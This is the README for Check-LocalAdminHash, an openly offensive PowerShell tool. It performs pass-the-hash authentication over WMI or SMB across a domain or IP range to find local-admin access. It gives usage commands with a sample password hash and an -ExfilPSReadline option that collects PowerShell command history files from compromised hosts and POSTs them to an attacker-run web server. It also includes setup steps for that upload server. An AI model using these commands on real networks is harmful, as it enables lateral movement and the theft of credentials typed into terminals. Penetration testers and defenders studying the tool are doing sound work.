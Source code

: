 # Check-LocalAdminHash
Check-LocalAdminHash is a PowerShell tool that attempts to authenticate to multiple hosts over either WMI or SMB using a password hash to determine if the provided credential is a local administrator. It's useful if you obtain a password hash for a user and want to see where they are local admin on a network. It is essentially a Frankenstein of two of my favorite tools along with some of my own code. It utilizes Kevin Robertson's (@kevin_robertson) Invoke-TheHash project for the credential checking portion. Additionally, the script utilizes modules from PowerView by Will Schroeder (@harmj0y) and Matt Graeber (@mattifestation) to enumerate domain computers to find targets for testing admin access against. 

![alt text](http://www.dafthack.com/Check-LocalAdminHash-Example.jpg)

The reason this script even exists is because on an assessment I wanted to gather all the PowerShell console history files (PSReadline) from every system on the network. The PSReadline console history is essentially the PowerShell version of bash history. It can include so many interesting things that people type into their terminals including passwords. So, included in this script is an option to exfiltrate all the PSReadline files as well. There is a bit of setup for this. See the end of the Readme for setup.

## Examples


### Checking Local Admin Hash Against All Hosts Over WMI
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems
```

### Exfiltrate All PSReadline Console History Files
This command will use the domain 'testdomain.local' to lookup all systems and then attempt to authenticate to each one using the user 'testdomain.local\PossibleAdminUser' and a password hash over WMI. It then attempts to locate PowerShell console history files (PSReadline) for each profile on every system and then POST's them to a web server. See the bottom of the Readme for server setup.

```PowerShell
Check-LocalAdminHash -Domain testdomain.local -UserDomain testdomain.local -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -AllSystems -ExfilPSReadline
```

### Using A CIDR Range
This command will use the provided CIDR range to generate a target list and then attempt to authenticate to each one using the local user 'PossibleAdminUser' and a password hash over WMI.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -CIDR 192.168.1.0/24
```


### Using Target List and SMB and Output to File
This command will use the provided targetlist and attempt to authenticate to each host using the local user 'PossibleAdminUser' and a password hash over SMB.
```PowerShell
Check-LocalAdminHash -Username PossibleAdminUser -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -TargetList C:\temp\targetlist.txt -Protocol SMB | Out-File -Encoding Ascii C:\temp\local-admin-systems.txt
```


### Single Target
This command attempts to perform a local authentication for the user Administrator against the system 192.168.0.16 over SMB.
```PowerShell
Check-LocalAdminHash -TargetSystem 192.168.0.16 -Username Administrato -PasswordHash E62830DAED8DBEA4ACD0B99D682946BB -Protocol SMB
```

### Check-LocalAdminHash Options
```
Username - The Username for attempting authentication.
PasswordHash - Password hash of the user.
TargetSystem - Single hostname or IP for authentication attempt.
TargetList - A list of hosts to scan one per line
AllSystems - A switch that when enabled utilizes PowerView modules to enumerate all domain systems. This list is then used to check local admin access.
Domain - This is the domain that PowerView will utilize for discovering systems.
UserDomain - This is the user's domain to authenticate to each system with. Don't use this flag if using a local cred instead of domain cred.
Protocol - This is the setting for whether to check the hash using WMI or SMB. Default is 'WMI' but set it to 'SMB' to check that instead.
CIDR - Specify a CIDR form network range such as 192.168.0.0/24
Threads - Defaults to 5 threads. (I've run into some odd issues setting threads more than 15 with some results not coming back.)
ExfilPSReadline - For each system where auth is successful it runs a PowerShell command to locate PSReadLine console history files (PowerShell command history) and then POSTS them to a web server. See the Readme for server setup. 
```

## PSReadline Exfiltration Setup
**This is your warning** that you are about to setup an Internet-facing server that will accept file uploads. Typically, this is a very bad thing to do. So definitely take precautions when doing this. I would recommend **locking down firewall rules** so that only the IP that will be uploading PSReadline files can hit the web server. Also, while we on the topic of security, this will work just fine with an HTTPS connection so setup your domain and cert so that the PSReadline files are sent encrypted over the network. You have been warned...

  * Setup a server wherever you would like the files to be sent. This server must be reachable over HTTP/HTTPS from each system.

  * Copy the index.php script from this repo and put it in /index.php in the web root (/var/www/html) on your web server.

  * Make an uploads directory

  ``mkdir /var/www/html/uploads
``

  * Modify the permissions of this directory 

  ``chmod 0777 /var/www/html/uploads
``

  * Make sure php is installed

  ``apt-get install php
``

  * Restart Apache
  
  ``service apache2 restart
``

  * In the Check-LocalAdminHash.ps1 script itself scroll down to the "Gen-EncodedUploadScript" function and modify the "$Url" variable right under "$UnencodedCommand". Point it at your web server index.php page. I haven't figured out how to pass the UploadUrl variable into that section of the code that ends up getting encoded and run on target systems so hardcode it for now.

Now when you run Check-LocalAdminHash with the -ExfilPSReadline flag it should attempt to POST each PSReadline (if there are any) to your webserver.

![alt text](http://www.dafthack.com/powershell-history-results.jpg)

## Credits
Check-LocalAdminHash is pretty much a Frankenstein of two of my favorite tools, PowerView and Invoke-TheHash. 95% of the code is from those two tools. So the credit goes to Kevin Robertson (@kevin_robertson) for Invoke-TheHash, and credit goes to Will Schroeder (@harmj0y), Matt Graeber (@mattifestation) (and anyone else who worked on PowerView). Without those two tools this script wouldn't exist. Also shoutout to Steve Borosh (@424f424f) for help with the threading and just being an all around awesome dude.

Invoke-TheHash - https://github.com/Kevin-Robertson/Invoke-TheHash

PowerView - https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1
